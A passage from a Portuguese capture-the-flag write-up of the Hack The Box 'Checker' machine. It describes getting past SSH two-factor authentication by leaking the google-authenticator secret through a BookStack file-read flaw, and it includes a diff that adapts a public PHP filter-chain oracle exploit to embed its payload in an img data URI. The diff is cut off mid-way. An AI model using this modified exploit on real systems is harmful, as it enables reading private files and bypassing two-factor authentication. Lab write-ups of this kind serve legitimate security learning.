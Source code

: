 A primeira senha permite acesso à instância do BookStack citada anteriormente como usuário `bob@checker.htb`, e a segunda permite autenticar na máquina via SSH. Entretanto, ao inserir a senha, é solicitado um código de autenticação em duas etapas:

<figure><img src="../../../.gitbook/assets/image (4).png" alt=""><figcaption><p>HTB Checker — autenticação em duas etapas</p></figcaption></figure>

Pesquisando por esse prompt, identifiquei que se tratava do prompt padrão quando se utiliza o [google-authenticator-libpam](https://github.com/google/google-authenticator-libpam) como módulo do [PAM](https://www.redhat.com/en/blog/pluggable-authentication-modules-pam). Entretanto, é necessário o segredo que está sendo utilizado para gerar o código. Na documentação dessa biblioteca, é informado que o segredo fica armazenado no diretório `home` do usuário que tem a autenticação em 2 fatores ativada. Com isso, tentei reproduzir a vulnerabilidade do BookStack para tentar obter o conteúdo desse arquivo e conseguir me autenticar como usuário `reader`. Foram necessárias algumas alterações para que o exploit [php\_filters\_chains\_oracle\_exploit](https://github.com/synacktiv/php_filter_chains_oracle_exploit) tivesse sucesso:

<pre class="language-git" data-title="requestor.py" data-line-numbers><code class="lang-git">diff --git a/filters_chain_oracle/core/requestor.py b/filters_chain_oracle/core/requestor.py
index 6b17fc4..be200a8 100644
--- a/filters_chain_oracle/core/requestor.py
+++ b/filters_chain_oracle/core/requestor.py
@@ -1,6 +1,7 @@
 import json
 import requests
 import time
+from base64 import urlsafe_b64encode
 from filters_chain_oracle.core.verb import Verb
 from filters_chain_oracle.core.utils import merge_dicts
 import re
@@ -105,30 +106,34 @@ class Requestor:
             time.sleep(self.delay)
 
         filter_chain = f'php://filter/{s}{self.in_chain}/resource={self.file_to_leak}'
+        # O payload deve ser passado como o atributo `src` de uma tag `img`
<strong>+        filter_chain = f"&#x3C;img src='data:image/png;base64,{urlsafe_b64encode(filter_chain.encode()).decode()}'>"
</strong>         # DEBUG print(filter_chain)
         merged_data = self.parse_parameter(filter_chain)
         # Make the request, the verb and data encoding is defined
         try:
             if self.verb == Verb.GET:
                 requ = self.session.get(self.target, params=merged_data)
-                return requ
             elif self.verb == Verb.PUT:
                 if self.json_input: 
                     requ = self.session.put(self.target, json=merged_data)
                 else:
                     requ = self.session.put(self.target, data=merged_data)
-                return requ
             elif self.verb == Verb.DELETE:
                 if self.json_input:
                     requ = self.session.delete(self.target, json=merged_data)
                 else:
                     requ = self.session.delete(self.target, data=merged_data)
-                return requ
             elif self.verb == Verb.POST:
                 if self.json_input:
                     requ = self.session.post(self.target, json=merged_data)